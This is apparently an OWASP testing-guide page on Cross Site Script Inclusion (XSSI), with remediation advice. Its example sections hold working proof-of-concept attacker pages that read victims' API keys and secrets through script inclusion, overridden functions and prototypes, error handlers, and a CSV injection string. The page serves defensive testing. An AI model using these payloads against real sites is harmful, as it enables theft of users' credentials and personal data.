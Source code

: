 # Summary

Cross Site Script Inclusion (XSSI) vulnerability allows sensitive data leakage across-origin or cross-domain boundaries. Sensitive data could include authentication related data (login states, cookies, auth tokens, session IDs, etc.), user personal or sensitive personal data (email addresses, phone numbers, credit card details, social security numbers, etc.). XSSI is a client-side attack similar to Cross Site Request Forgery (CSRF) but they have a different purpose: CSRF uses the authenticated user context to execute certain state-changing actions inside a victim’s page (eg. transfer money to the attacker's account, modify privileges, reset password, etc.) and XSSI uses JavaScript on the client side to leak sensitive data from authenticated sessions.

By default websites are only allowed to access data if they are from the same origin. This is a key application security principle and governed by the same-origin policy (defined by RFC 6454 - [https://tools.ietf.org/html/rfc6454] [1]). An origin is defined as the combination of URI scheme (http/https), host name, and port number. However, this policy is bypassed/not appliable for <script> HTML tag inclusions. This exception is necessary as without it websites would not be able to consume third party services, traffic analysis or advertisement platforms, etc.

When the browser opens a website with <script> tags, the resources are fetched from the cross-origin domain and they run in the same context as the including site/browser which presents the opportunity to leak sensitive data. This is achieved in most cases using JavaScript (JS), however, the script source doesn't have to be a JS file, be served with `text/javascript` or `.js` extension. Some browsers are lenient and only block if it is served with an image type (`image/`), a video type (`video/`), an audio (`audio/*`) type, or `text/csv`\[[10]].

Old browser version vulnerabilities (IE9/10) allowed data leakage via JavaScript error messages at runtime but those vulnerabilties have now been patched by vendors and are considered not as relevant. By setting the charset attribute of the <script> tag the attacker/tester can enforce UTF-16 encoding which allows data leakage for other data formats (eg JSON) in some cases. If you want to learn more about these please read  [Identifier based XSSI attacks MBSD Whitepaper](https://www.mbsd.jp/Whitepaper/xssi.pdf).
  
The following XSSI vulnerability cases will be discussed:

1. Leak sensitive data via global variables
2. Leak sensitive data via global function parameters
3. Leak sensitive data via non-JavaScript resource - CSV with quotations theft
4. Leak sensitive data via JavaScript runtime errors

## Example Leak Sensitive Data via Global Variables

1. An API key is stored in a JavaScript file with the URI `https://victim.com/internal/api.js` on the victim's website (victim.com) which is only accessible for authenticated users. The attacker/tester configures a website (attackingwebsite.com) and uses the <script> tag to refer to this JavaScript file in question.

`api.js` contents:
```
(function() {
  window.secret = "supersecretUserAPIkey";
})();
```

2. The attacker/tester has configured a website (attackingwebsite.com) with the following:

`index.html` contents:
```
<!DOCTYPE html>
<html>
  <head>
    <title>Leaking data via global variables</title>
  </head>
  <body>
    <h1>Leaking data via global variables</h1>
    <script src="https://victim.com/internal/api.js"></script>
    <div id="result">
    </div>
    <script>
      var div = document.getElementById("result");
      div.innerHTML = "Your secret data <b>" + window.secret + "</b>"; 
    </script>
  </body>
</html>
```

3. The attacker lures the user to attackingwebsite.com either via social engineering, phishing emails, etc. This step requires the user to authenticate first to victim.com before visiting attackingwebsite.com.

4. The user's browser fetches the api.js and the sensitive data is leaked via the global JavaScript variable and displayed using innerHTML. 

## Example Leak Sensitive Data via Global Function Parameters

This example is similar to the previous one except in this case attackingwebsite.com uses a global JavaScript function to extract the sensitive data by overwriting the victim's global JavaScript function.

`index.html` contents:
```
<!DOCTYPE html>
<html>
  <head>
    <title>Leaking data via global function parameters 1</title>
  </head>
  <body>
    <div id="result">
    </div>
    <script>
      function globalFunction(param) {
        var div = document.getElementById("result");
        div.innerHTML = "Your secret data: <b>" + param + "</b>";
      }
    </script>
    <script src="https://victim.com/internal/api.js"></script>
  </body>
</html>
```

`api.js` contents:
```
(function() {
  var secret = "supersecretAPIkey";
  window.globalFunction(secret);
})();
```

There are other XSSI vulnerabilities leaking sensitive data either via JavaScript prototype chains or global function calls. If you want to learn more about these please visit Sebastian Leike's page [4].

## Example Leak Sensitive Data via Non-Javascript Resource - CSV with Quotations Theft

To leak data the attacker/test has to be able to inject JavaScript code into the CSV data. The following example is an excerpt from Takeshi Terada's identifier based XSSI attacks whitepaper [8]:

```
HTTP/1.1 200 OK
Content-Type: text/csv
Content-Disposition: attachment; filename="a.csv"
Content-Length: xxxx

1,"___","aaa@a.example","03-0000-0001"
2,"foo","bbb@b.example","03-0000-0002"
...
98,"bar","yyy@example.net","03-0000-0088"
99,"___","zzz@example.com","03-0000-0099"
```

In this case using the ___ parts as injection points and inserting the `\"",$$$=function(){/*` string has the following result:

```
1,"\"",$$$=function(){/*","aaa@a.example","03-0000-0001"
2,"foo","bbb@b.example","03-0000-0002"
...
98,"bar","yyy@example.net","03-0000-0088"
99,"*/}//","zzz@example.com","03-0000-0099"
```

Gmail had a similar vulnerability in 2006 that allowed the extraction of user contacts in JSON[11]. In this case the data was received from Gmail and parsed by the browser JavaScript engine using an unreferenced Array constructor to leak the data. The attacker/tester could access this Array with the sensitive data by defining and overwriting the internal Array constructor like this:

```
<!DOCTYPE html>
<html>
  <head>
    <title>Leaking gmail contacts via JSON </title>
  </head>
  <body>
    <script>
      function Array() {
        // steal data
      }
    </script>
    <script src="http://mail.google.com/mail/?_url_scrubbed_"></script>
  </body>
</html>
```

## Example Leak Sensitive Data via Javascript Runtime Errors

Browsers normally present standardized Javascript error messages like "Script error.". However, in the case of IE9/10 runtime error messages provided additional details which could be used to leak data. For example, a website (victim.com) serves the following content at the URI http://victim.com/service/csvendpoint for authenticated users:

```
HTTP/1.1 200 OK
Content-Type: text/csv
Content-Disposition: attachment; filename="a.csv"
Content-Length: 13

1,abc,def,ghi
```

This vulnerability could be exploited with the following:

```
<!--error handler -->
<script>window.onerror = function(err) {alert(err)}</script>
<!--load target CSV -->
<script src="http://victim.com/service/csvendpoint"></script>
```

When the browser tries to render the CSV content as JavaScript it fails and leaks the sensitive data:

![JavaScript runtime error message ](../images/XSSI1.jpeg)

## How to Test
### Black Box Testing

The methodology has the following steps:
1. Identify which endpoints are responsible for sending sensitive data, what parameters are required, and identify all relevant dynamically and statically generated JavaScript responses using authenticated user sessions. Pay special attention to sensitive data sent using JSONP. To find dynamically generated JavaScript responses generate authenticated and unauthenticated requests and compare/diff them. If they're different then the response is dynamic otherwise it's static. To simplify this task a purpose built Burp proxy plugin by Veit Hailperin can be used [2]. Make sure to check other filetypes in addition to JavaScript: XSSI is not limited to JavaScript files and is much more widespread.

2. Investigate if the sensitive data can be leaked using JavaScript:
  - Using global variables [example](#example-leak-sensitive-data-via-global-variables)
  - Overwriting global functions and parameters [example](#example-leak-sensitive-data-via-global-function-parameters)
  - Using an old version of browser and exploiting JavaScript runtime error leak vulnerabilities [example](#example-leak-sensitive-data-via-javascript-runtime-errors)
  - Data leak via prototype chaining by using the "this" keyword. In JavaScript "this" is dynamically scoped which means if a function is called upon an object, `this` will point to this object even though the called function might not belong to the object itself. This behavior can be used to leak data. In the following example from Sebastian Leike's page [4] the sensitive data is stored in an Array. The tester/attacker can override Array.prototype.forEach with an attacker-controlled function. If some code calls the forEach function on an array instance that contains sensitive values, the attacker-controlled function will be invoked with "this" pointing to the object that contains the sensitive data.

`javascript.js`
```
...
(function() {
  var secret = ["578a8c7c0d8f34f5", "345a8b7c9d8e34f5"];

  secret.forEach(function(element) {
    // do something here
  });  
})();
...
```

The sensitive data can be leaked with the following JavaScript code:
```
...
 <div id="result">

    </div>
    <script>
      Array.prototype.forEach = function(callback) {
        var resultString = "Your secret values are: <b>";
        for (var i = 0, length = this.length; i < length; i++) {
          if (i > 0) {
            resultString += ", ";
          }
          resultString += this[i];
        }
        resultString += "</b>";
        var div = document.getElementById("result");
        div.innerHTML = resultString;
      };
    </script>
    <script src="http://victim.com/..../javascript.js"></script>
...
```
### Gray Box Testing

The methodology is similar with the exception of the attacker/tester may have access to the source code to review.

# Remediation

1. Don't put sensitive user data in Javascript responses and avoid JSONP if possible. 
2. Use correct Content-Type headers with appropriate charset defined.
3. Use the "X-Content-Type-Options: nosniff" in the response header which causes browsers to reject CSV and other data with non-script MIME type designation when they are loaded as JavaScript.
4. Use Anti-Cross-Site Request Forgery Tokens.
5. Developers can either include an unparsable content to the beginning of the response (eg. an uncatchable exception) to cause runtime compile errors. This approach assumes that runtime errors cannot be leaked via browser vulnerabilities.
6. Strict referrer checking (error-prone).
7. Use [SameSite cookie](https://tools.ietf.org/html/draft-west-first-party-cookies-07)
8. Insert additional characters (/\*\*/ or //) at the beginning of JSON responses (Content-Type: application/json).  This will cause parsing errors in JSON.parse unable to get the data extracted from the response.  

# References

1. [RFC 6454: The Web Origin Concept](https://tools.ietf.org/html/rfc6454)
2. [W3schools - JSONP](https://www.w3schools.com/js/js_json_jsonp.asp)
3. [Wikipedia - JSONP](https://en.wikipedia.org/wiki/JSONP)
4. [Sebastian Lekies - Leaking Data Across Origins Via Dynamic Script Includes ](http://sebastian-lekies.de/leak/)
5. [Veit Hailperin - Cross-Site Script Inclusion](https://www.scip.ch/en/?labs.20160414)
6. [Sebastian Lekies / Ben Stock: Your Script in My Page: What Could Possibly Go Wrong?](https://www.owasp.org/images/f/f3/Your_Script_in_My_Page_What_Could_Possibly_Go_Wrong_-_Sebastian_Lekies%2BBen_Stock.pdf)
7. [Sebastian Lekies, Ben Stock, Martin Wentzel and Martin Johns - Unexpected Dangers of Dynamic JavaScript](https://www.usenix.org/system/files/conference/usenixsecurity15/sec15-paper-lekies.pdf)
8. [Takeshi Terada: Identifier based XSSI attacks (MBSD Technical Whitepaper)](https://www.mbsd.jp/Whitepaper/xssi.pdf)
9. [Veit Hailperin: The Tale of a Fameless but Widespread Vulnerability](https://www.owasp.org/images/9/9a/20160607-xssi-the_tale_of_a_fameless_but_widepsread_vulnerability-Veit_Hailperin.pdf)
10. [HackerOne XSSI – Stealing Multi Line Strings](https://blog.cm2.pw/h1-xssi/)
11. [Jeremiah Grossman blog - Advanced Web Attack Techniques using GMail](https://blog.jeremiahgrossman.com/2006/01/advanced-web-attack-techniques-using.html)
12. [A Codelab by Bruce Leban, Mugdha Bendre, and Parisa Tabriz](https://google-gruyere.appspot.com/part3#3__cross_site_script_inclusion)
13. [SameSite Cookie](https://tools.ietf.org/html/draft-west-first-party-cookies-07)

# Tools

1. [OWASP Zed Attack Proxy Project](https://www.owasp.org/index.php/OWASP_Zed_Attack_Proxy_Project)
2. [Veit Hailperin - Detect Dynamic JavaScript](https://github.com/luh2/DetectDynamicJS/blob/master/DetectDynamicJS.py)
